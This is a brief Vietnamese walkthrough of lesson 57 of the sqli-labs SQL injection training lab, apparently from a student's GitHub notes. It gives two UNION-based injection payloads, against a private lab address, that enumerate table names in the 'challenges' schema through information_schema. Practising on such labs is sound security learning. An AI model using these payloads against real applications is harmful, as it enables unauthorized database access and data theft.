



# Những việc làm được với lesson-57
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-57



- Lần 1: 
```
192.168.80.225/sqli-labs/Less-57/?id=0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```



- Lần 2
```
192.168.80.225/sqli-labs/Less-57/?id=0" union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```



Tương tự ta làm như bài 54 nhé ^^

